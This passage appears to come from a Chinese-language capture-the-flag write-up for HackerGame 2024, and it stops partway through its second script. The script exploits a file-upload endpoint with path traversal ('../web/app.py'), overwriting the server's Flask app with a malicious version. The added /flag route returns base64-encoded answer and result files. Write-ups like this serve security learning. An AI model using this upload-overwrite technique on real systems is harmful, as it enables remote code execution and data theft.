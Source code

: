 ```Plain Text
    output = p.recvall(timeout=2)
    print(f"Server response:\n{output.decode()}")
else:
    print("Failed to find a solution.")

p.close()
```

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 28.png)



# 禁止内卷

上传恶意文件覆盖app.py

然后改路由下载json

```Plain Text
import base64
import requests
import time

# 禁用SSL警告
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# CTF服务器地址
BASE_URL = 'https://chal02-26fc9773.hack-challenge.lug.ustc.edu.cn:8443/'

# 恶意的app.py内容，添加一个/flag路由
malicious_app_py = '''
from flask import Flask, jsonify
import base64

app = Flask(__name__)

@app.route('/flag')
def flag():
    try:
        # 读取 results.json 并进行 Base64 编码
        with open("results.json", "rb") as f:
            results_base64 = base64.b64encode(f.read()).decode('utf-8')

        # 读取 answers.json 并进行 Base64 编码
        with open("answers.json", "rb") as f:
            answers_base64 = base64.b64encode(f.read()).decode('utf-8')

        return jsonify({
            "results_base64": results_base64,
            "answers_base64": answers_base64
        }), 200
    except Exception as e:
        return jsonify({"error": str(e)}), 500
'''

def upload_malicious_file():
    files = {
        'file': ('../web/app.py', malicious_app_py)
    }
    try:
        response = requests.post(BASE_URL + 'submit', files=files, verify=False)
        if '评测成功' in response.text:
            print("[+] 恶意文件上传成功。")
```
